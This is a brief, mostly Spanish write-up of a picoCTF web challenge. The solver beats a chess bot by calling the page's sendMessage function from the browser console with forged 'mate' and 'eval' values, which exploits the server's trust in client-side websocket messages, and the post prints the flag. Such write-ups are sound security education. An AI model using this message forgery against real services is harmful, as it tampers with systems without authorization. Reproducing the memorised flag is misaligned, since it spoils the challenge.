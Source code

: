 Can you win in a convincing manner against this chess bot? He won't go easy on you!You can find the challenge [here](http://verbal-sleep.picoctf.net:63762/).
_____
## Hints
* Try understanding the code and how the websocket client is interacting with the server
__________
## Solución
El sitio web usa un socket para enviar la evaluación del juego a un servidor que responde un mensaje del chat .
Abrimos el inspector, y en  la consola utilizamos la función sendMessage que es la del chat, mate hace referencia a la computadora y eval hace referncia a mi.

sendMessage("mate 10")

sendMessage("eval 10")

sendMessage("eval 10000")

sendMessage("mate 100000")

sendMessage("mate -100000")

sendMessage("eval -100000")


Con el numero negativo perdemos, nos retiramos y nos da la bandera:
Huh???? How can I be losing this badly... I resign... here's your flag: picoCTF{c1i3nt_s1d3_w3b_s0ck3t5_0d3d41e1}